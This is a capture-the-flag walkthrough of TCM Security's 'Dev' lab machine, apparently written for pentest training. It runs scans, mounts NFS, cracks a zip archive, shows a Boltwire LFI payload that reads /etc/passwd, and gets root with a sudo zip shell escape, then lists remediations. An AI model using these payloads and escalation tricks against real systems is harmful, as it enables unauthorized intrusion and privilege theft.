

# Dev (TCM) - Walkthrough

<p align="center">
  
  
  
</p>

> **Platform:** TCM  
> **Machine:** Academy  
> **Difficulty:** Higher End - Easy
> **Objective:** Gain root access and capture the flag.

> A complete penetration testing walkthrough of the **Dev** machine from TCM Security's series, documenting the attack path from reconnaissance to root compromise, along with vulnerability assessment and remediation recommendations.

---

## Table of Contents

- [Executive Summary](#executive-summary)
- [Machine Information](#machine-information)
- [Attack Path Overview](#attack-path-overview)
- [Reconnaissance](#reconnaissance)
- [Enumeration](#enumeration)
- [Exploitation](#exploitation)
- [Privilege Escalation](#privilege-escalation)
- [Flag Capture](#flag-capture)
- [Vulnerability Assessment](#vulnerability-assessment)
- [Remediation & Fixes](#remediation--fixes)
- [Key Takeaways](#key-takeaways)
- [Final Pentester's Observation](#final-pentesters-observation)

---

# Executive Summary

The **Dev** machine demonstrates a realistic attack scenario where several individually low and medium severity findings can be chained together to achieve complete system compromise.

During the assessment, the target exposed multiple externally accessible services, including two web applications and an NFS service. Through systematic enumeration and careful analysis of the exposed attack surface, it was possible to discover sensitive information, identify an application vulnerability, recover credentials, and eventually gain administrative control of the machine.

One of the key lessons from this machine is that attackers rarely rely on a single critical vulnerability. Instead, they leverage multiple weaknesses that individually may appear harmless but collectively lead to full compromise.

---

# Machine Information

| Attribute | Value |
|-----------|--------|
| Name | Dev |
| Author | VulnHub |
| Author | TCM Security |
| Operating System | Linux |
| Difficulty | Easy-Medium |
| Goal | Obtain Root Access |

---

# Attack Path Overview



---

# Reconnaissance

## Host Discovery

```bash
netdiscover -r 192.168.126.0/24
```

or

```bash
nmap -sn 192.168.126.0/24
```

Target discovered:

```text
192.168.126.133
```

---

## Port Scanning

```bash
nmap -sS -A -T4 -p- 192.168.126.133
```

### Open Ports

| Port | Service |
|------|----------|
| 22 | SSH |
| 80 | HTTP |
| 2049 | NFS |
| 8080 | HTTP |

### Pentester's Observation

At first glance, the machine immediately presents a relatively large attack surface. Two separate web services combined with an exposed NFS service suggest that the environment may contain development artifacts, backup files, or sensitive configuration information.

Whenever multiple services are exposed, it is important not to focus solely on the obvious attack vector. Each service should be enumerated independently because even a seemingly insignificant finding can become a critical piece of information later in the attack chain.

---

# Enumeration

## Web Enumeration

```bash
nikto -h http://192.168.126.133
```

The application revealed:

- Technology stack information
- Development information
- Potential debug artifacts
- Application version disclosure

---

## Directory Enumeration

```bash
feroxbuster -u http://192.168.126.133 -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -t 500 -r --depth 5 --scan-dir-listings
```

```bash
ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt:FUZZ -u http://192.168.126.133/FUZZ
```

For 8080:
```bash
feroxbuster -u http://192.168.126.133:8080 -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -t 500 -r --depth 5 --scan-dir-listings
```

```bash
ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt:FUZZ -u http://192.168.126.133:8080/FUZZ
```

Interesting directories:

```text
/app
/src
/dev
```

### Pentester's Observation

Directories such as `/app` and `/src` are often high-value targets because they frequently contain:

- Source code
- Configuration files
- API endpoints
- Database credentials
- Backup files

The discovery of these directories significantly increased the likelihood of obtaining sensitive information and therefore became the primary focus of further enumeration.

---

## Application Enumeration

The application running on port 8080 allowed user registration.

Credentials used:

```text
Username: test
Password: test
```

A search functionality was discovered after authentication.

### Pentester's Observation

Search functionality should always be treated as potentially dangerous because user input frequently reaches backend functions that may be vulnerable to:

- SQL Injection
- Command Injection
- Local File Inclusion
- Path Traversal

Although no vulnerability was immediately apparent, the functionality was marked for further investigation.

---

## NFS Enumeration

```bash
showmount -e 192.168.126.133
```

Discovered:

```text
/srv/nfs
```

Mounting:

```bash
mkdir /mnt/dev
mount -t nfs 192.168.126.133:/srv/nfs /mnt/dev
```

Files discovered:

```text
save.zip
```

Password cracking:

```bash
fcrackzip -D -p rockyou.txt save.zip
```

Contents:

- SSH private key
- User reference: `jp`
- Password candidate: `I_love_java`

### Pentester's Observation

NFS shares are commonly overlooked during assessments but frequently contain some of the most valuable information on a system. Backup files and archives often expose credentials, keys, and internal documentation that developers never intended to be publicly accessible.

Although the information did not immediately result in shell access, it provided useful intelligence that became valuable later in the engagement.

---

# Exploitation

## Local File Inclusion

Research identified an exploit affecting Boltwire CMS.

Payload:

```text
http://TARGET:8080/dev/index.php?p=action.search&action=../../../../../../../etc/passwd
```

Result:

```text
jeanpaul:x:1000:1000:jeanpaul:/home/jeanpaul:/bin/bash
```

---

## Credential Discovery

Further enumeration revealed:

```text
/app/config/config.yml
```

The file contained credentials for:

```text
jeanpaul
```

SSH access:

```bash
ssh jeanpaul@192.168.126.133
```

### Pentester's Observation

This stage highlights the danger of storing credentials inside application configuration files. Once an attacker gains the ability to read arbitrary files through LFI, sensitive files such as configuration files become prime targets.

The combination of LFI and hardcoded credentials directly resulted in initial access to the machine.

---

# Privilege Escalation

## Enumerating Sudo Permissions

```bash
sudo -l
```

Output:

```text
(ALL) NOPASSWD: /usr/bin/zip
```

Privilege escalation:

```bash
touch data.txt
zip data.zip data.txt
sudo zip data.zip data.txt -T --unzip-command='sh -c /bin/sh'
```

Verification:

```bash
whoami
```

Output:

```text
root
```

### Pentester's Observation

Sudo misconfigurations remain one of the most common privilege escalation vectors in Linux environments.

Allowing seemingly harmless binaries to execute with elevated privileges can lead to complete system compromise, particularly when those binaries support command execution or shell spawning capabilities.

Knowledge of GTFOBins and Linux privilege escalation techniques was sufficient to escalate privileges without exploiting any kernel vulnerabilities.

---

# Flag Capture

```bash
cd /root
cat flag.txt
```

Root access successfully obtained.

---

# Vulnerability Assessment

| Vulnerability | Severity |
|---------------|-----------|
| Information Disclosure | Medium |
| Exposed Directories | Medium |
| NFS Misconfiguration | High |
| Local File Inclusion | High |
| Hardcoded Credentials | High |
| Sudo Misconfiguration | Critical |

---

# Remediation & Fixes

## Priority 1 – Remove Dangerous Sudo Permissions

Remove unnecessary sudo permissions and enforce the principle of least privilege.

## Priority 2 – Patch Vulnerable Applications

Update or replace vulnerable versions of Boltwire CMS.

## Priority 3 – Remove Hardcoded Credentials

Use:

- Environment variables
- Secret management solutions
- Credential rotation

## Priority 4 – Secure NFS

Restrict access to trusted hosts and remove sensitive backups.

## Priority 5 – Reduce Information Disclosure

Disable debug functionality and remove unnecessary information from production environments.

---

# Key Takeaways

- Enumeration is often the most important phase of an engagement.
- Low severity findings can be chained into critical compromise.
- Configuration files frequently expose sensitive information.
- NFS should never be ignored during assessments.
- GTFOBins knowledge is invaluable during Linux privilege escalation.

---

# Final Pentester's Observation

The Dev machine is an excellent example of how attackers approach real-world environments.

No sophisticated exploit or kernel vulnerability was required to compromise this system. Instead, success depended entirely on methodical enumeration, correlating findings, and chaining together multiple weaknesses.

This machine reinforces an important lesson in penetration testing:

> Attackers do not need a single critical vulnerability to compromise an environment. Multiple small weaknesses, when combined, are often sufficient to achieve complete administrative control over a system.
